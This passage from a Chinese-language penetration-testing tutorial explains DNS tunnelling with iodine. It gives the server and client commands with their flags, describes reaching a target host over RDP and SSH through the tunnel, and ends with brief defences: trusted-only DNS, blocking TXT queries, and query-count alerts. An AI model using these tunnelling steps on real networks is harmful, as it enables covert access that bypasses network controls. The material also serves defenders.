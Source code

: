 iodined -f -c -P Micr067 192.168.0.1 vpn.abc.com -DD

-f：在前台运行

-c：禁止检查所有传入请求的客户端 IP 地址。

-P：客户端和服务端之间用于验证身份的密码。

-D：指定调试级别，-DD 指第二级。“D” 的数量随级别增加。

这里的 192.168.0.1 是自定义的局域网虚拟 IP 地址。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38yGwmSEfiaiaSGWgbBMM0SWPzvic1jE9Q2ZDrKtVUQBySWLrjKtlASHr9yGZvers78HD9ekyrkicA1sg/640?wx_fmt=jpeg)

**（2）安装客户端**

**linux 环境**：

iodine -f -P Micr067 vpn.abc.ltd -M 200

-r：iodine 有时会自动将 DNS 隧道切换为 UDP 隧道，该参数的作用是强制在任何情况下使用 DNS 隧道

-M：指定上行主机的大小。

-m：调节最大下行分片的大小。

-T：指定 DNS 请求类型 TYPE，可选项有 NULL、PRIVATE、TXT、SRV、CNAME、MX、A。

-O：指定数据编码规范。

-L：指定是否开启懒惰模式，默认开启。

-I：指定两个请求之间的时间间隔。

**windows 环境**：

windows 客户端可以直接使用编译好的 windows 版本，同时需要安装 TAP 网卡驱动程序。也可以下载 OpenVPN，在安装时仅选择 TAP-Win32 驱动程序，安装后服务器上就会多出一块 “TAP-Wndows ADApter V9” 的网卡。

运行客户端程序 iodine，如果出现提示 “Connection setup complete, transmitting data”，就表示 DNS 隧道已经建立。

iodine -f -P Micr067 vpn.abc.com

**![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38yGwmSEfiaiaSGWgbBMM0SWPVjxgprdhbU3ej90Vl5xESYuj8mxibxd0zKh87pU0VRLnSibh8DNfGQ5A/640?wx_fmt=jpeg)**

**（3）使用 dns 隧道**

DNS 隧道的使用方法比较简单，由于客户端和服务端在同一局域网中，只要直接访问服务端即可，例如，登录目标主机的 3389 端口，就可以直接执行 mstsc 10.0.0.1:3389。同样，目标主机也可以直接通过 ssh 登录服务**端。**

**（4）防御 DNS 隧道攻击的方法**

1. 禁止网络中任何人向外部服务器发送 DNS 请求，只允许与受信任的 DNS 服务器通信。

2. 虽然没有人会将 TXT 解析请求发送给 DNS 服务器，但是邮件服务器 / 网关会这样做，因此，可以将邮件服务器 / 网关列入白名单并阻止传入和传出流量中的 TXT 请求。

3. 跟踪用户的 DNS 查询次数，如果达到阈值，就生成相应的报告。

**四、 Socks 代理**
---------------

1. 服务器在内网中，可以任意访问外部网络
